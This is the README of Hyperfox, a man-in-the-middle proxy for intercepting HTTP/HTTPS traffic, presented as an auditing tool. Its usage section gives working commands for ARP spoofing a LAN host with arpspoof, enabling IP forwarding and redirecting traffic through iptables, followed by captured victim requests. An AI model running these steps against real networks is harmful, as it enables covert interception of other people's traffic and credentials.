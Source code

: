 # Hyperfox

Hyperfox is a security tool for Man In The Middle operations over HTTP and
HTTPs.

Hyperfox can be used as a tool for auditing a wide range of applications,
including mobile applications that do not properly verify certificates or that
do not use certificates at all.

The `hyperfox` tool is a default distribution of the Hyperfox proxy.

Hyperfox can also be used as a library to develop special proxies with [Go][1],
if you're interested on programming a special proxy for any special MITM
operation you may read the library documentation at [godoc.org][6].

## Features of the Hyperfox tool

The Hyperfox tool has some useful features:

* Saves all the traffic between client and server.
* Can modify server responses before arriving to the client.
* Can modify client requests before sending them to the destination server.
* Supports SSL/TLS.
* Supports streaming.

## Getting Hyperfox

You can download a pre-compiled binary of the Hyperfox tool:

* [Linux x86_64](https://menteslibres.net/files/hyperfox/hyperfox-1.0-linux-x64)
* [OSX x86_64](https://menteslibres.net/files/hyperfox/hyperfox-1.0-darwin-x64)

Once you've downloaded the appropriate binary move it to `$HOME/bin/hyperfox`
and call it using the full path:

```sh
$ ~/bin/hyperfox -h
```

If you have `$HOME/bin` in your `$PATH`, you may as well call `hyperfox`
without the full path:

```sh
$ hyperfox -h
```

If you have [Go][1] and [git][2] you can use `go get` to download the source
and compile the Hyperfox tool by yourself:

```sh
$ go get github.com/xiam/hyperfox
$ hyperfox -h
```

## Usage example

**I**. Make sure the [dsniff][5] tool is installed in the MITM machine, we are
going to use the `arpspoof` tool (part of [dsniff][5]) to alter the ARP table
of a specific machine on LAN to make it redirect its traffic to us instead of
to the legitimate LAN gateway. This ancient technique is known as
[ARP spoofing][4].

**II**. Identify the LAN IP of the machine you want to intercept traffic for.
Let's suppose you want to intercept traffic from `10.0.0.146`.

**III**. Identify the IP of your router and the name of the interface you're
connected with, let's say your router is `10.0.0.1` and you're connected to
the router through `wlan0`.

```sh
$ sudo route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         10.0.0.1        0.0.0.0         UG    0      0        0 wlan0
```

**IV**. Put the MITM machine in [IP forwarding][3] mode.

```sh
# Linux
$ sudo sysctl -w net.ipv4.ip_forward=1

# FreeBSD/OSX
$ sudo sysctl -w net.inet.ip.forwarding=1
```

**V**. Run hyperfox (as a normal, unprivileged user) within a writable directory:

```sh
$ mkdir -p ~/tmp/hyperfox-session
$ cd ~/tmp/hyperfox-session
$ hyperfox
2013/08/25 08:21:36 Hyperfox tool, by Carlos Reventlov.
2013/08/25 08:21:36 http://www.reventlov.com

2013/08/25 08:21:36 Listening for HTTP client requests at 0.0.0.0:9999.
```

If you want to analyze HTTPs instead of HTTP, use the `-s` flag and provide
appropriate
[cert.pem](https://github.com/xiam/hyperfox/raw/master/ssl/cert.pem) and
[key.pem](https://github.com/xiam/hyperfox/raw/master/ssl/key.pem) files.

```sh
$ hyperfox -s -c ssl/cert.pem -k ssl/key.pem
```

**VI**. Prepare the machine to forward everything but the port hyperfox will
intercept (`80`, for plain HTTP), instead tell it to forward the traffic on
port `80` to the `9999` port on `127.0.0.1` (where `hyperfox` is listening).

```sh
# Linux (HTTP)
$ sudo iptables -A PREROUTING -t nat -i wlan0 -p tcp --destination-port 80 -j \
REDIRECT --to-port 9999

# FreeBSD/OSX (HTTP)
$ sudo ipfw add fwd 127.0.0.1,9999 tcp from any to any 80 via wlan0
```

**VII**. Run `arpspoof` to make `10.0.0.146` think our host is `10.0.0.1` (the
LAN's legitimate gateway), once the ARP spoofing is completed, `10.0.0.146` will
start to send its traffic through our machine.

```sh
$ sudo arpspoof -i wlan0 -t 10.0.0.146 10.0.0.1
```

**VIII**. !???

**IX**. Profit!!

Once `192.168.1.146` starts to send some traffic, a `capture` directory will
be created:

```sh
$ cd ~/tmp/hyperfox-session
$ ls
capture
$ cd capture
$ find .
./client
./client/10.0.0.146
./client/10.0.0.146/a.adcloud.net
./client/10.0.0.146/a.adcloud.net/adcloud
./client/10.0.0.146/a.adcloud.net/adcloud/12345
./client/10.0.0.146/a.adcloud.net/adcloud/12345/GET-20130825-133421-734021699.head
./client/10.0.0.146/a.adcloud.net/adcloud/12345/GET-20130825-133421-734021699
...
./server
./server/10.0.0.146
./server/10.0.0.146/a.adcloud.net
./server/10.0.0.146/a.adcloud.net/adcloud
./server/10.0.0.146/a.adcloud.net/adcloud/12345
./server/10.0.0.146/a.adcloud.net/adcloud/12345/GET-20130825-133421-734021699.head
./server/10.0.0.146/a.adcloud.net/adcloud/12345/GET-20130825-133421-734021699
./server/10.0.0.146/a.adcloud.net/adcloud/12345/GET-20130825-133421-734021699.body
...
```

You can see whatever is happening by watching hyperfox's output:

```sh
-> 10.0.0.146:61716 m.vanityfair.com: GET /business/features/2011/05/paul-allen-201105 HTTP/1.1 0b
<- 10.0.0.146:61716 m.vanityfair.com: GET /business/features/2011/05/paul-allen-201105 HTTP/1.1 -1b 200
-> 10.0.0.146:61716 m.vanityfair.com: GET /static/css/mobify.css?1335486443 HTTP/1.1 0b
-> 10.0.0.146:61717 m.vanityfair.com: GET /static/mcss/561/stag-carmot-vf.css?1370835026 HTTP/1.1 0b
-> 10.0.0.146:61718 www.vanityfair.com: GET /etc/clientlibs/foundation/jquery.js HTTP/1.1 0b
-> 10.0.0.146:61719 dl.dropbox.com: GET /u/123456/vf-mobile/js/cn.mobifycore.js HTTP/1.1 0b
<- 10.0.0.146:61718 www.vanityfair.com: GET /etc/clientlibs/foundation/jquery.js HTTP/1.1 0b 304
```

## License

> Copyright (c) 2012-2013 José Carlos Nieto, https://menteslibres.net/xiam
>
> Permission is hereby granted, free of charge, to any person obtaining
> a copy of this software and associated documentation files (the
> "Software"), to deal in the Software without restriction, including
> without limitation the rights to use, copy, modify, merge, publish,
> distribute, sublicense, and/or sell copies of the Software, and to
> permit persons to whom the Software is furnished to do so, subject to
> the following conditions:
>
> The above copyright notice and this permission notice shall be
> included in all copies or substantial portions of the Software.
>
> THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND,
> EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
> MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND
> NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE
> LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION
> OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION
> WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

[1]: http://golang.org/doc/install
[2]: http://git-scm.com
[3]: http://en.wikipedia.org/wiki/IP_forwarding
[4]: http://en.wikipedia.org/wiki/ARP_spoofing
[5]: http://monkey.org/~dugsong/dsniff/
[6]: http://godoc.org/github.com/xiam/hyperfox/proxy
